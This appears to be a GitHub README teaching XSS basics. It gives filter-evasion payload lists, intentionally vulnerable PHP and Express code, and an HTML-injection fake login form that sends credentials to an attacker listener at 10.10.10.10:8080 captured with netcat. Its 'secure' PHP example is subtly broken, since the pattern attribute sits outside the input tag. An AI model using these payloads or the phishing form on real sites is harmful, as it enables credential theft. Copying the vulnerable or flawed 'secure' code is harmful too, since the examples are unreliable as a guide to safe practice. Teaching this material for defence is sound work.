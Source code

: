 # XSS---Basics
Basic overview of XSS

What is XSS (Cross Site Scripting)

Cross-site scripting (also known as XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application. It allows an attacker to circumvent the same origin policy, which is designed to segregate different websites from each other. Cross-site scripting vulnerabilities normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data. If the victim user has privileged access within the application, then the attacker might be able to gain full control over all of the application's functionality and data. 

Types of XSS

- Reflected XSS         // Where the malicious script comes from the current HTTP request.
- Stored XSS            // Where the malicious script comes from the website's database.
- DOM-based XSS         // Where the vulnerability exists in client-side code rather than server-side code.

What can XSS abused for:


- Impersonate or masquerade as the victim user.
- Carry out any action that the user is able to perform.
- Read any data that the user is able to access.
- Capture the user's login credentials.
- Perform virtual defacement of the web site.
- Inject trojan functionality into the web site.

Top XSS prevention controls:

- Filter and sanitize all user input and input boxes (Disallow specific characters etc..) - Use OWASP XSS Evasion sheet for proactive controls
- Enforce Client-Side Validation - HTML (Pattern) / JavaScript (Yup / Validator.js / regex)
- Enforce secure coding (SAST / DAST / RASP / IAST)
- Implement CSP (Content Secuirty Policy) - CSP controls where scripts can be sourced from (Only add authorized domains / partners)
- Implement WAF (Configured according to threat-centric controls)
- Implement RASP - Monitors code instructions in real-time 



Testing if webiste input boxes / search boxes are vulnerable to XSS

```
Basic Payloads 

<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>

SVG Payloads

<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)

IMG Payloads

<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

HTML Payloads

<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>


```

Unsecure PHP Vulnerable Code Example 1

```
<center><h1><font color="red">PHP XSS Test</font></h1>
<hr>
<form method="post">
  <textarea name="text" placeholder="Place Text"></textarea></br>
  <input type="submit" name="bouton" value="Enter" />
</form>

<?php
if(isset($_POST["bouton"])){
  $text = $_POST["text"];
  echo "<strong>Data:</strong>  ".$text;
}


 ?>
</center>

```
Unsecure PHP XSS Code Example 2

The below code snippet is vulnerable to XSS becuase the "name" paramater receives user-supplied input that is not being validated before it gets passed to HTML for output
```

<?php

if (!isset($_GET['name'])) 

{
  echo "<h1>Hi! What's your name?</h1>";
  echo "<form action='' method='GET'>";
  echo "<input type='text' name='name'>";
  echo "</form>";

} else {
  header("X-XSS-Protection: 0");
  
  $name = $_GET['name'];  // No user input sanitization
  echo "<h1>Hi $name!</h1>";
}

```


Secure PHP XSS Code Example

Below we added the htmlspecialchars() function infront of the "name" paramater to convert special characters such as <>'"& to HTML entities

This allows HTML to output the user-supplied input as text instead of executing any script tags such as <script>--Malicious_String</script>

We also enforce the HTML Pattern attribute to add regular expression validation by disallowing specific characters such as <>|&'"
```
<?php

if (!isset($_GET['name']))  // Accept user input 
{

  echo "<h1>Hi. What is your name?</h1>";
  echo "<form action='' method='GET'>";   // Create text box to accept user input from a GET request
  echo "<input type='text' name='name'> pattern=[^<>|&'"\x22]+";     //HTML validation - Disallowing the following characters: <>|&'"
  echo "</form>";



} else {
  $name = htmlspecialchars($_GET['name']); // Function to sanatize HTML user input saved to the "name" paramater - Outputs user input as text
  echo "<h1>Hi $name!";
}


```

Basic PHP XSS HTML Injection Example

Below code snippet can be used to perform a HTML injection attack to redirect the user to a custom login page. When the user submits his/her credentials , a request will be sent to the attacker's listener to capture the credentials in cear-text

```
h3>Please login to proceed</h3> <form action=http://10.10.10.10:8080>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>

// Inject the above command inside a vulnerable input field / box

Attacker: nc -lvnp 8080 // To capture credentials

```

JavaScript Vulnerable Code Example 

```
const express = require('express')
const app = express()
const port = 3000

app.get('/', (req, res) => res.send('Hello World!'))


app.listen(port, () => console.log(`App listening on port ${port}!`))


const Vulnerability = (req, res) => {
    var user = req.params.user;
    var respond = `
        <h1>Hi, ${user}</h1>   // The Vulnerability
    `
    res.send(respond);
}


const Vulnerability2 = (req, res) => {
    var {user} = req.params;
    var respond = `
        <script> var x = "${user}" </script>   // The vulnerability
    `
    res.send(respond);
}


app.get('/vuln', Vulnerability);
app.get('/vuln2', Vulnerability2);

```
JavaScript Secure Code Example

```
const express = require('express')
const app = express()
const port = 3000

app.get('/', (req, res) => res.send('Hello World!'))

app.get('/noVuln1', NoVulnerability1);
app.get('/noVuln2', NoVulnerability2);

app.listen(port, () => console.log(`Example app listening on port ${port}!`))


const NoVulnerability1 = (req, res) => {
    var user = db.getCurrentUser();
    res.json({
        name: user.name,
        email: user.email
    });
}

const NoVulnerability2 = (req, res) => {
    var accept = req.params.accept ? true : false;
    if(accept){
        res.send('Thank you for accepting');
    }else{
        res.send('Why you did not accept it');
    }
}


```

